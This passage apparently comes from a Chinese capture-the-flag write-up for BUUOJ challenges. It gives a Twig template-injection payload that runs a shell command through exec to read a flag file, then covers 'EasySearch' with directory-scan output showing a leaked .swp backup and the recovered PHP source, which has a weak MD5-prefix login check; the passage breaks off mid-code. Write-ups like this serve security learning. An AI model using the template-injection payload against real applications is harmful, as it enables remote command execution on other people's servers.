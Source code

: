 ![](/pic/162.png)

应该是twig

找payload，在[Cxlover师傅的博客](https://www.cnblogs.com/cioi/)找到了payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /falg")}}
```



## EasySearch

扫描目录发现备份文件

```
---- Scanning URL: http://69d43586-fb6a-4cce-9174-915b9b1788e5.node3.buuoj.cn/ ----
+ http://69d43586-fb6a-4cce-9174-915b9b1788e5.node3.buuoj.cn/index.php.swp (CODE:200|SIZE:1153)
+ http://69d43586-fb6a-4cce-9174-915b9b1788e5.node3.buuoj.cn/index.php (CODE:200|SIZE:1048)
```

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
```